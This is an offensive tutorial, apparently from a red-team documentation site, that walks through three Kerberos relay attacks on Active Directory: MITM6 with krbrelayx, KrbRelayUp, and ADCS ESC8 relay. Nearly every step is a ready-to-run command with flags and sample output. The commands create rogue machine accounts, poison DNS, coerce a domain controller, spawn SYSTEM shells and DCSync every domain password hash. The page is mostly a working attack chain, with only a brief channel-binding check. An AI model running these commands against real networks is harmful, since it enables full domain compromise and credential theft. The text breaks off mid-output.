

## What Is a Kerberos Relay Attack?

NTLM relay is simple: capture a Net-NTLMv2 challenge-response hash and replay it somewhere else. Kerberos relay is harder. A Kerberos AP-REQ (Authentication Protocol Request — the message a Kerberos client sends to a service to prove it holds a valid [service ticket](/docs/kerberos/tickets/)) is cryptographically bound to a specific [SPN](/docs/kerberos/kerberoast/) (Service Principal Name — a unique identifier tying a service to a domain account, e.g. `cifs/ws01.radiant.local`). The KDC (Key Distribution Center — the Kerberos authentication server running on every Windows domain controller) issues and encrypts each service ticket for exactly one SPN. A ticket issued for `cifs/server.radiant.local` will be rejected if you try to replay it to `ldap/dc01.radiant.local` — the SPN in the ticket won't match the service's registered SPN, and the service will refuse it.

That binding is the fundamental obstacle. What breaks it?

- **DNS spoofing breaks it at the name-resolution layer.** If the attacker controls DNS, they can make a victim machine request a Kerberos ticket for `ldap/dc01.radiant.local` while *believing* it is authenticating to a legitimate name — so the ticket the attacker intercepts already addresses the correct target service.
- **Local DCOM/RPC coercion breaks it by staying in-process.** A low-privilege user on a domain-joined machine can trigger a privileged local service to authenticate to an attacker-controlled listener, relay that auth to LDAP on the DC, and use RBCD (Resource-Based [Constrained Delegation](/docs/kerberos/delegation/constrained-delegation/) — covered in [RBCD](/docs/kerberos/delegation/rbcd/)) to escalate to SYSTEM — without touching the network.
- **ADCS HTTP relay breaks it by targeting a service that doesn't enforce channel binding.** Active Directory Certificate Services (ADCS — Microsoft's built-in PKI for issuing X.509 certificates to domain objects) web enrollment exposes an HTTP endpoint that accepts Kerberos authentication without EPA (Extended Protection for Authentication — a Windows mechanism that binds Kerberos to the underlying TLS channel; without it, relayed Kerberos sessions are accepted). Coerce a machine account to authenticate there, receive its certificate, use PKINIT (Public Key Cryptography for Initial Authentication — a Kerberos extension that uses an X.509 certificate instead of a password to obtain a TGT) to get a TGT, and [DCSync](/docs/redteam/credential-dumping/).

This note covers three distinct attack paths for three different situations.


## How Does Kerberos Relaying Work?

The sequence below shows Attack 1 (MITM6 + krbrelayx) because it illustrates every moving part of a Kerberos relay chain — DNS poisoning, authentication interception, LDAP write, and the RBCD follow-up — in a single flow. Attacks 2 and 3 are covered in their own sections.



The critical insight in that flow: MITM6 (a tool by Dirk-jan Mollema that poisons IPv6 DNS by answering DHCPv6 broadcasts) ensures the victim's Kerberos client requests a ticket for `ldap/dc01.radiant.local` — the actual DC's LDAP SPN. The ticket is valid. krbrelayx (also by Dirk-jan Mollema) simply forwards it to the real DC's LDAP port before the victim connects. LDAP on a default Windows Server accepts that ticket because channel binding (EPA — Extended Protection for Authentication) is not enforced by default. The attacker is authenticated as `WS01$` and writes RBCD.


## What Does a Kerberos Relay Attack Require?

Each attack has a distinct set of requirements. Match the column to your situation.

| Requirement | Attack 1: MITM6 + krbrelayx | Attack 2: KrbRelayUp | Attack 3: ADCS Relay |
|---|---|---|---|
| Network position | Layer 2 adjacency to victim — attacker must be on the same subnet to receive DHCPv6 broadcasts | **Local** — attacker is already running code on the target machine | Network access to ADCS server and ability to coerce DC auth |
| Account level | Any domain user (or none — unauthenticated DHCPv6 poisoning works) | Low-privilege domain user on a domain-joined machine | Any domain user (for coercion tools) |
| IPv6 enabled on victims | Yes — DHCPv6 polling must be active on victim machines | Not applicable | Not applicable |
| LDAP channel binding / LDAP signing | LDAP channel binding must be disabled (default); LDAP signing may be required — see Operational Notes | Same as Attack 1 — relays to LDAP without channel binding | ADCS HTTP endpoint must lack EPA (default) |
| ADCS present | Not required | Not required | Yes — ADCS with web enrollment (`/certsrv`) installed and accessible |
| MachineAccountQuota > 0 or existing SPN account | Yes — ATTACKPC$ must be pre-created if not already owned | Yes — KrbRelayUp creates one automatically with `-CreateNewComputerAccount` | Not required for ADCS relay itself |
| Tools (Linux) | `mitm6`, `krbrelayx`, `getST.py` (Impacket) | Not applicable — Attack 2 is Windows-only | `PetitPotam.py` or `printerbug.py`, `certipy`, `getST.py` (Impacket) |
| Tools (Windows) | Limited — see Attack 1 Windows tab | `KrbRelayUp.exe`, `Rubeus.exe` | `Rubeus.exe`, `Certify.exe`, `certipy` (WSL) |


## Attack 1: MITM6 + krbrelayx to LDAP

### Setup

Before starting the relay, create the attacker-controlled machine account that RBCD will reference. `addcomputer.py` (part of Impacket — install with `pipx install impacket`) creates the account via LDAP; the `\` at the end of each bash line is bash's line continuation character — the block runs as a single command.

```bash
addcomputer.py \
  -computer-name 'ATTACKPC$' \
  -computer-pass 'AttackPass1!' \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

Flag breakdown:
- `-computer-name` — the sAMAccountName (SAM — Security Account Manager — account name) for the new machine account; the `$` suffix marks it as a machine account in Windows convention
- `-computer-pass` — password you choose; used later in `getST.py` to authenticate as this account
- positional `radiant.local/jdoe:'Password123!'` — domain/user:password of the creating account; spends one slot of `jdoe`'s `MachineAccountQuota` allowance (default: 10 per user)
- `-dc-ip` — DC IP; avoids relying on DNS which may be in flux during the attack

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Successfully added machine account ATTACKPC$ with password AttackPass1!.
```

### Running the Relay


  
Open two terminals. Both run simultaneously.

**Terminal 1 — MITM6 (IPv6 DNS poisoning)**

MITM6 listens for DHCPv6 (Dynamic Host Configuration Protocol version 6 — the IPv6 equivalent of DHCP; Windows machines poll for an IPv6 DNS server even on IPv4-only networks) broadcasts and answers them, positioning the attacker as the victim's DNS resolver.

```bash
mitm6 -d radiant.local
```

Flag breakdown:
- `-d radiant.local` — the target domain; MITM6 only poisons DNS for names ending in this domain, avoiding disruption to unrelated queries

```
Starting mitm6 using the following configuration:
Primary adapter: eth0 [00:0c:29:aa:bb:cc]
IPv4 address: 192.168.56.50
IPv6 address: fe80::20c:29ff:feaa:bbcc
DNS local search domain: radiant.local
WPAD file contents:
  function FindProxyForURL(url, host) { return "PROXY 192.168.56.50:80; DIRECT"; }
Listening for DHCP6 requests...
```

**Terminal 2 — krbrelayx (Kerberos relay to LDAP)**

krbrelayx waits for Kerberos authentication attempts destined for names MITM6 just poisoned. When one arrives, it relays the AP-REQ to LDAP on the real DC and uses the resulting session to configure RBCD.

```bash
krbrelayx.py \
  --target ldap://192.168.56.10 \
  --delegate-access \
  --escalate-user 'ATTACKPC$' \
  -smb2support
```

Flag breakdown:
- `--target ldap://192.168.56.10` — relay destination; `ldap://` (plain LDAP, port 389) rather than `ldaps://` (LDAP over TLS, port 636) because channel binding only applies to TLS-wrapped connections; plain LDAP has no channel to bind
- `--delegate-access` — instructs krbrelayx to write `msDS-AllowedToActOnBehalfOfOtherIdentity` on the relayed account's computer object automatically after a successful relay
- `--escalate-user 'ATTACKPC$'` — the machine account to write into that attribute; this is the account the attacker will use in the S4U chain afterward
- `-smb2support` — enables SMB2 in krbrelayx's listener so it can capture authentication from modern Windows clients (SMB1 is disabled by default from Windows 10 onwards)

```
[*] Protocol Client SMB2 loaded...
[*] Protocol Client SMB loaded...
[*] Running HTTP server on port 80
[*] Running SMB server on port 445
[*] Servers started, waiting for connections
```

Wait for a victim to poll for WPAD (Web Proxy Auto-Discovery — a protocol Windows uses to find web proxy configuration; clients query `wpad.radiant.local` on startup and network change, making it an ideal coercion target) or for a machine to refresh its IPv6 DNS configuration. When a connection arrives:

```
[*] SMBD: Received connection from 192.168.56.20
[*] HTTPD: Got connection from 192.168.56.20
[*] Authenticating WS01$ against ldap://192.168.56.10 as WS01$
[*] Setting msDS-AllowedToActOnBehalfOfOtherIdentity on WS01$ to ATTACKPC$
[*] Delegation rights modified successfully!
[*] ATTACKPC$ can now impersonate users on WS01$ via S4U2Proxy
```

**After successful relay — getST.py for RBCD**

RBCD is now configured. Use `getST.py` to run the [S4U2Self](/docs/kerberos/delegation/s4u2self-abuse/) + S4U2Proxy chain as `ATTACKPC$`, requesting a service ticket for `Administrator` on `cifs/ws01.radiant.local`.

```bash
getST.py \
  -spn cifs/ws01.radiant.local \
  -impersonate Administrator \
  -dc-ip 192.168.56.10 \
  radiant.local/'ATTACKPC$':'AttackPass1!'
```

Flag breakdown:
- `-spn cifs/ws01.radiant.local` — the target SPN; `cifs` (Common Internet File System — the protocol underlying Windows SMB file shares) gives access to file shares and enables `psexec.py` / `smbclient.py`
- `-impersonate Administrator` — the domain account to impersonate in the S4U chain; must not be in Protected Users (see Operational Notes)
- `-dc-ip 192.168.56.10` — DC IP for the Kerberos exchange
- positional `radiant.local/'ATTACKPC$':'AttackPass1!'` — credentials for the S4U-performing account; quotes around `ATTACKPC$` prevent the shell treating `$` as a variable

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.radiant.local@RADIANT.LOCAL.ccache
```

Use the ticket:

```bash
export KRB5CCNAME=Administrator@cifs_ws01.radiant.local@RADIANT.LOCAL.ccache
psexec.py -k -no-pass ws01.radiant.local
```

Flag breakdown:
- `export KRB5CCNAME=...` — sets the environment variable that Impacket tools read to find the ticket cache file (`.ccache` — a Linux Kerberos ticket storage format)
- `-k` — use Kerberos authentication from the ccache file
- `-no-pass` — suppress the password prompt; required when using `-k` or Impacket asks anyway

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Requesting shares on ws01.radiant.local.....
[*] Found writable share ADMIN$
[*] Uploading file tKqXmBpL.exe
[*] Opening SVCManager on ws01.radiant.local.....
[*] Creating service yRcP on ws01.radiant.local.....
[*] Starting service yRcP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
  
  
MITM6 and krbrelayx are Python tools with no native Windows port. The relay itself must run from a Linux machine. However, if you have already completed the relay from Linux and obtained the `.ccache` file, convert it for Windows use with `ticketConverter.py` on Linux, then inject it on Windows with Rubeus.

```bash
# On Linux — convert ccache to kirbi format that Rubeus accepts
ticketConverter.py \
  Administrator@cifs_ws01.radiant.local@RADIANT.LOCAL.ccache \
  administrator_cifs_ws01.kirbi
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] ccache v4 imported OK
```

Transfer `administrator_cifs_ws01.kirbi` to the Windows machine, then inject and use it. The backtick `` ` `` at the end of a PowerShell line is PowerShell's line continuation character — it lets you split long commands across multiple lines.

```powershell
# Inject the ticket into the current logon session
.\Rubeus.exe ptt /ticket:administrator_cifs_ws01.kirbi
```

```
[*] Action: Import Ticket
[+] Ticket successfully imported!
```

```powershell
# C$ is a hidden Windows administrative share that exposes the entire C: drive,
# automatically created on every Windows machine and accessible only to administrators
dir \\ws01.radiant.local\C$
```

```
    Directory: \\ws01.radiant.local\C$

Mode                 LastWriteTime         Length Name
----                 -------------         ------  ----
d-----         1/12/2026  08:14 AM                PerfLogs
d-r---         2/20/2026  03:41 PM                Program Files
d-----         1/12/2026  08:14 AM                Program Files (x86)
d-r---         3/01/2026  10:22 AM                Users
d----l         3/01/2026  10:22 AM                Windows
```

For the relay phase itself, run MITM6 and krbrelayx from a Linux/Kali machine on the same subnet. There is no Windows equivalent.
  



## Attack 2: KrbRelayUp (Local Privilege Escalation)

> **Windows only.** KrbRelayUp is a Windows binary that exploits local DCOM (Distributed Component Object Model — Microsoft's framework for inter-process communication between Windows components; many privileged Windows services expose DCOM interfaces that lower-privileged processes can call) and RPC (Remote Procedure Call — a protocol Windows services use to call functions in other processes; often used across the network but also locally between processes on the same machine) to coerce a privileged local service into authenticating to an attacker-controlled listener. The entire attack runs on a single machine with no network relay required. A Linux follow-up section shows how to use the resulting RBCD from a remote Linux attacker after the attack.

**How it works in four steps:**

1. KrbRelayUp starts a fake local RPC/DCOM server that a privileged Windows service (such as `spoolsv.exe` — the Print Spooler, which runs as SYSTEM) will authenticate to when asked
2. KrbRelayUp coerces that SYSTEM service into authenticating to the local listener via a COM activation request; the authentication uses Kerberos because the machine is domain-joined
3. KrbRelayUp intercepts the Kerberos AP-REQ from the SYSTEM service and relays it to LDAP on the DC (reachable over the network from the machine)
4. With the relayed SYSTEM-level auth, KrbRelayUp writes `msDS-AllowedToActOnBehalfOfOtherIdentity` on the current machine's AD object, then uses the RBCD chain to spawn a SYSTEM shell

No MITM, no network adjacency, no sniffing. The victim machine coerces itself.


  
Download KrbRelayUp from https://github.com/Dec0ne/KrbRelayUp and drop it on the target machine as any domain user.

**Phase 1 — relay and configure RBCD**

The `relay` subcommand handles coercion, relay to LDAP, and RBCD configuration in one invocation. The backtick `` ` `` at the end of each PowerShell line is PowerShell's line continuation character.

```powershell
.\KrbRelayUp.exe relay `
  -Domain radiant.local `
  -CreateNewComputerAccount `
  -ComputerName KrbRelay$ `
  -ComputerPassword 'Passw0rd!'
```

Flag breakdown:
- `relay` — the subcommand that performs the local coercion, Kerberos relay, and LDAP write; must come before all flags
- `-Domain radiant.local` — FQDN of the target domain; used when building Kerberos requests
- `-CreateNewComputerAccount` — tells KrbRelayUp to create a new machine account (using `MachineAccountQuota`) before configuring RBCD; this new account becomes the RBCD source in the S4U chain
- `-ComputerName KrbRelay$` — name for the new machine account; the `$` is the machine account convention and KrbRelayUp accepts either form
- `-ComputerPassword 'Passw0rd!'` — password for the new machine account; you choose this and need it in Phase 2

``` {linenos=table}
KrbRelayUp - Universal no-fix local privilege escalation in windows domain environments
by Mor Davidovich (@dec0ne)

[+] Rewriting function table...
[+] Trying to elevate via Print Spooler...
[+] Got Kerberos auth from WS01$ (RADIANT\WS01$)
[+] Relaying to LDAP on dc01.radiant.local
[+] LDAP bind successful as RADIANT\WS01$
[+] Created new computer account KrbRelay$ with password Passw0rd!
[+] Set RBCD on WS01$ -> allow KrbRelay$ to delegate
[+] RBCD attack path established
```

**Phase 2 — spawn a SYSTEM shell**

The `spawn` subcommand uses the RBCD that was just configured to run the S4U chain and execute a command as SYSTEM.

```powershell
.\KrbRelayUp.exe spawn `
  -m rbcd `
  -d radiant.local `
  -dc dc01.radiant.local `
  -cn KrbRelay$ `
  -cp 'Passw0rd!'
```

Flag breakdown:
- `spawn` — uses the existing RBCD to obtain a service ticket and launch a privileged process
- `-m rbcd` — delegation method to use; `rbcd` uses the RBCD chain configured in Phase 1; the alternative `-m shadowcred` uses [Shadow Credentials](/docs/tools/bloodyad/) (requires ADCS with a compatible template) instead
- `-d radiant.local` — domain FQDN
- `-dc dc01.radiant.local` — DC hostname for the Kerberos exchange; KrbRelayUp resolves this for the S4U requests
- `-cn KrbRelay$` — the machine account name created in Phase 1; used as the S4U2Self actor
- `-cp 'Passw0rd!'` — password for that machine account; KrbRelayUp uses this to authenticate as `KrbRelay$` and obtain a TGT before running S4U

``` {linenos=table}
KrbRelayUp - Universal no-fix local privilege escalation in windows domain environments
by Mor Davidovich (@dec0ne)

[+] Got TGT for KrbRelay$
[+] Requesting S4U2self ticket...
[+] S4U2self ticket: [forwardable] for KrbRelay$
[+] S4U2Proxy ticket: Administrator@host/ws01.radiant.local
[+] Ticket successfully imported!
[+] Spawning process using ticket...

Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

The shell inherits SYSTEM-level privileges. From here, extract hashes, read sensitive files, or install persistence.

**Alternative: `shadowcred` method**

If `MachineAccountQuota` is 0 (no self-service machine account creation), use Shadow Credentials instead of RBCD by passing `-m shadowcred` to `spawn`. Shadow Credentials require ADCS with a compatible certificate template and write access to `msDS-KeyCredentialLink` on the current machine's AD object — KrbRelayUp checks and falls back gracefully.

```powershell
.\KrbRelayUp.exe relay `
  -Domain radiant.local `
  -m shadowcred

.\KrbRelayUp.exe spawn `
  -m shadowcred `
  -d radiant.local `
  -dc dc01.radiant.local
```
  
  
If you are a remote Linux attacker who has confirmed (via logs, BloodHound, or a shell on the machine) that KrbRelayUp ran successfully and RBCD was configured for `KrbRelay$` on `ws01.radiant.local`, you can complete the chain remotely without touching the Windows machine again.

Verify the RBCD write landed using `rbcd.py`:

```bash
rbcd.py \
  -delegate-to 'WS01$' \
  -action read \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity:
[*]   ACE[0]: Allow KrbRelay$ (S-1-5-21-3623811015-3361044348-30300820-5202)
```

Run the S4U chain remotely using `getST.py`. The `\` at the end of each bash line is bash's line continuation character.

```bash
getST.py \
  -spn cifs/ws01.radiant.local \
  -impersonate Administrator \
  -dc-ip 192.168.56.10 \
  radiant.local/'KrbRelay$':'Passw0rd!'
```

Flag breakdown:
- `-spn cifs/ws01.radiant.local` — target SPN; request a CIFS (file share access) ticket for the target machine
- `-impersonate Administrator` — account to impersonate through the S4U chain; do not choose a Protected Users member
- `-dc-ip 192.168.56.10` — DC IP for the exchange
- positional `radiant.local/'KrbRelay$':'Passw0rd!'` — the machine account KrbRelayUp created; quotes prevent `$` shell expansion

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_ws01.radiant.local@RADIANT.LOCAL.ccache
```

Use the ticket for remote access:

```bash
export KRB5CCNAME=Administrator@cifs_ws01.radiant.local@RADIANT.LOCAL.ccache
wmiexec.py -k -no-pass ws01.radiant.local
```

Flag breakdown:
- `export KRB5CCNAME=...` — environment variable pointing Impacket at the `.ccache` file
- `-k` — Kerberos authentication from ccache
- `-no-pass` — suppress the password prompt when using `-k`

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
radiant\administrator
```
  



## Attack 3: Kerberos Relay to ADCS (ESC8, HTTP Relay)

ESC8 is the original ADCS relay attack (documented in the SpecterOps "Certified Pre-Owned" research). It targets the ADCS web enrollment endpoint at `/certsrv/` — specifically the `certfnsh.asp` page that processes certificate requests. By default, this endpoint accepts Kerberos authentication without EPA (Extended Protection for Authentication — a mechanism that cryptographically binds the Kerberos session to the underlying TLS channel, making relayed sessions invalid; also called channel binding). Without EPA, a relayed Kerberos AP-REQ is accepted as genuine.

The attack chain:
1. Coerce a machine account (such as `DC01$`) into authenticating to the attacker via PrinterBug or PetitPotam
2. Relay that authentication to the ADCS HTTP enrollment endpoint
3. Request a certificate for the machine account (`Machine` template) using the relayed session
4. Use PKINIT with the certificate to get a TGT as `DC01$`
5. Use `secretsdump.py` with that TGT to DCSync

This is particularly powerful when pointed at a DC — a DC machine account certificate gives you DCSync rights immediately.


  
**Step 1 — start the relay listener**

`certipy` (https://github.com/ly4k/Certipy — a Python tool for ADCS attack enumeration and exploitation) includes a built-in relay module. Run it before triggering authentication coercion. The `\` at the end of each bash line is bash's line continuation character.

```bash
certipy relay \
  -target http://ca.radiant.local/certsrv/certfnsh.asp \
  -ca 'radiant-CA' \
  -template 'Machine'
```

Flag breakdown:
- `relay` — the certipy subcommand that starts the relay listener (on port 445 / 80 depending on coercion method) and forwards Kerberos auth to the ADCS endpoint
- `-target http://ca.radiant.local/certsrv/certfnsh.asp` — the ADCS web enrollment URL; use `http://` not `https://` — TLS activates EPA automatically on most configurations, making relay impossible; the unencrypted HTTP endpoint is the target
- `-ca 'radiant-CA'` — the CA (Certificate Authority — the ADCS server that issues certificates; its name is the NetBIOS hostname followed by `-CA` by default) name as shown in the ADCS console
- `-template 'Machine'` — the certificate template to request; `Machine` issues certificates to machine accounts and includes client authentication EKU (Extended Key Usage — a certificate field that declares what the certificate is valid for; `Client Authentication` OID `1.3.6.1.5.5.7.3.2` is required for PKINIT)

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://ca.radiant.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Relaying Kerberos authentication to http://ca.radiant.local/certsrv/certfnsh.asp
```

**Step 2 — coerce authentication**

In a second terminal, coerce the DC to authenticate to the attacker. PetitPotam (https://github.com/topotam/PetitPotam) abuses the MS-EFSRPC (Encrypting File System Remote Protocol — a Windows protocol for managing encrypted file operations remotely; it includes calls that trigger NTLM/Kerberos auth back to a caller-supplied path) interface to trigger DC outbound authentication.

```bash
python3 PetitPotam.py \
  -u jdoe \
  -p 'Password123!' \
  192.168.56.50 \
  dc01.radiant.local
```

Flag breakdown:
- `-u` / `-p` — credentials for the coercion call; any valid domain user works for the EFS path (unauthenticated coercion is patched but authenticated still works on most environments)
- `192.168.56.50` — the attacker's IP that the DC will authenticate back to; must match where certipy relay is listening
- `dc01.radiant.local` — the coercion target; the DC will send an MS-EFSRPC callback to `192.168.56.50` authenticating as `DC01$`

```
[+] Connecting to ncacn_ip_tcp:dc01.radiant.local[135]
[+] Successfully bound to LSARPC
[+] Triggering EFS authentication...
[+] DC01$ is authenticating to 192.168.56.50
```

Back in Terminal 1, certipy captures the relay and issues the certificate:

```
[*] Incoming connection from DC01$ (192.168.56.10)
[*] Authenticating DC01$ against http://ca.radiant.local/certsrv/certfnsh.asp
[*] Requesting certificate for DC01$ using template Machine
[*] Got certificate with UPN 'DC01$@radiant.local'
[*] Saving certificate and private key to 'dc01.pfx'
```

**Step 3 — PKINIT to get a TGT**

Use the certificate to authenticate to the KDC via PKINIT (Public Key Cryptography for Initial Authentication — Kerberos extension defined in RFC 4556 that lets a client prove identity using an X.509 certificate and its private key instead of a password hash).

```bash
certipy auth \
  -pfx dc01.pfx \
  -domain radiant.local \
  -dc-ip 192.168.56.10
```

Flag breakdown:
- `auth` — certipy subcommand for PKINIT authentication
- `-pfx dc01.pfx` — the certificate + private key bundle obtained from the relay; certipy packages both into a single `.pfx` file
- `-domain radiant.local` — the domain to authenticate against
- `-dc-ip 192.168.56.10` — DC IP for the AS-REQ (Authentication Service Request — the initial Kerberos message where a client requests a TGT from the KDC)

```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: dc01$@radiant.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$': aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```

certipy also extracts the NT hash directly via PKINIT's `AS-REP` decryption — you can use that hash directly without a TGT.

**Step 4 — DCSync**

Use the TGT or NT hash to DCSync (dump all domain hashes by abusing the `DS-Replication-Get-Changes-All` right that DC machine accounts hold by default).

```bash
# Via TGT
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass dc01.radiant.local -just-dc-ntlm

# Via NT hash (no TGT needed)
secretsdump.py \
  -hashes :8846f7eaee8fb117ad06bdd830b7586c \
  radiant.local/'DC01$'@dc01.radiant.local \
  -just-dc-ntlm
```

Flag breakdown:
- `-hashes :NThash` — Impacket's hash format; the colon before the NT hash is required; the empty field before the colon is the LM hash (an obsolete hash type; always blank in modern environments). **This is `DC01$`'s NT hash — not a user's hash, not the krbtgt hash**
- `-just-dc-ntlm` — only dump NT hashes from NTDS.DIT (the AD database file on every DC — `C:\Windows\NTDS\NTDS.dit` — containing all domain account credentials and objects); skip Kerberos keys and supplemental credentials to reduce output volume

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cfce4e4d87594dd4a74f4cdf1f68e79e:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:73d47b4e201b1bb51c39e0e5f022b394:::
jdoe:1105:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys grabbed
[*] Cleaning up...
```

Domain is compromised. The `krbtgt` hash enables [Golden Ticket](/docs/kerberos/ticket-attacks/golden-ticket/) attacks. The `Administrator` hash enables full pass-the-hash access to every domain machine.
  
  
The certipy relay listener must run on Linux (certipy has no native Windows port). The coercion step and post-exploitation steps can be performed from Windows.

**Step 1 — relay listener (Linux required)**

Run certipy relay from your Linux/Kali machine while coercing from Windows.

```bash
# On Linux attacker
certipy relay \
  -target http://ca.radiant.local/certsrv/certfnsh.asp \
  -ca 'radiant-CA' \
  -template 'Machine'
```

**Step 2 — coerce from Windows**

From a Windows machine with domain user credentials, use `Certify.exe` (https://github.com/GhostPack/Certify — C# ADCS enumeration and exploitation tool by SpecterOps) to confirm the template is vulnerable, or use a PowerShell coercion one-liner targeting the Print Spooler.

Alternatively, if you have `printerbug.py` (Impacket — coerces authentication via MS-RPRN, the Print System Remote Protocol) available via WSL (Windows Subsystem for Linux):

```powershell
# Confirm ESC8 template exists from Windows
.\Certify.exe find /vulnerable
```

``` {linenos=table}
[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=radiant,DC=local'

[!] Vulnerable Certificates Templates:

    CA Name                    : ca.radiant.local\radiant-CA
    Template Name              : Machine
    Schema Version             : 1
    Enrollee Supplies Subject  : False
    msPKI-Certificate-Name-Flag: SUBJECT_ALT_REQUIRE_DNS, SUBJECT_ALT_REQUIRE_DOMAIN_DNS
    msPKI-Enroll-Flag          : AUTO_ENROLLMENT, INCLUDE_SYMMETRIC_ALGORITHMS
    Authorized Signatures Required : 0
    pkiextendedkeyusage        : Client Authentication, Server Authentication
    Enrollment Permissions
      Enrollment Rights        : RADIANT.LOCAL\Domain Computers, RADIANT.LOCAL\Domain Controllers
```

The `Client Authentication` EKU and `Domain Computers` enrollment right confirm the template is usable for the relay.

**Step 3 — PKINIT from Windows**

After certipy writes `dc01.pfx` on Linux, transfer it to Windows and use Rubeus for PKINIT. The backtick `` ` `` is PowerShell's line continuation character.

```powershell
.\Rubeus.exe asktgt `
  /user:DC01$ `
  /certificate:dc01.pfx `
  /domain:radiant.local `
  /dc:dc01.radiant.local `
  /ptt
```

Flag breakdown:
- `asktgt` — Rubeus subcommand that performs an AS-REQ to the KDC to get a TGT
- `/user:DC01$` — the account the certificate was issued for; must match the certificate's Subject or SAN (Subject Alternative Name — a certificate field listing additional valid identities beyond the Subject)
- `/certificate:dc01.pfx` — the PKCS12 bundle from certipy; Rubeus extracts the private key and certificate from this file for the PKINIT exchange
- `/domain:radiant.local` — target domain FQDN
- `/dc:dc01.radiant.local` — specific DC to send the AS-REQ to
- `/ptt` — inject the resulting TGT directly into the current session's Kerberos ticket cache

```
[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=DC01$
[*] Building AS-REQ (w/ PKINIT preauth) for: 'radiant.local\DC01$'
[+] TGT request successful!
[*] base64(ticket.kirbi): doIFpD...
[+] Ticket successfully imported!
```

With `DC01$`'s TGT in the session, run DCSync via `mimikatz`:

```powershell
.\mimikatz.exe "lsadump::dcsync /domain:radiant.local /all /csv" exit
```

```
[*] Will dump the full AD database
[*] Connecting to KDC...
[*] Reading domain info...
500;Administrator;cfce4e4d87594dd4a74f4cdf1f68e79e
502;krbtgt;73d47b4e201b1bb51c39e0e5f022b394
1105;jdoe;2b576acbe6bcfda7294d6bd18041b8fe
```
  



## Operational Notes

### How Do You Check Channel Binding State?

Channel binding (EPA — Extended Protection for Authentication, also called `ChannelBinding`) is the primary defense against Kerberos relay to LDAP. Before attempting Attack 1 or Attack 2, verify that LDAP channel binding is not enforced on the DC.

```bash
# Check LDAP channel binding policy via LDAP query
ldapsearch \
  -H ldap://192.168.56.10 \
  -x \
  -b "" \
  -s base \
  "(objectClass=*)" \
  supportedCapabilities 2>/dev/null | grep -i channel
```

A cleaner check via `netexec` (https://github.com/Pennyw0rth/NetExec — a Swiss-army knife for network pentesting, the actively maintained successor to CrackMapExec):

```bash
netexec ldap 192.168.56.10 -u jdoe -p 'Password123!' -M ldap-checker
```

```
SMB         192.168.56.10   445   DC01   [*] Windows Server 2022 Build 20348
LDAP        192.168.56.10   389   DC01   LDAP Signing NOT enforced
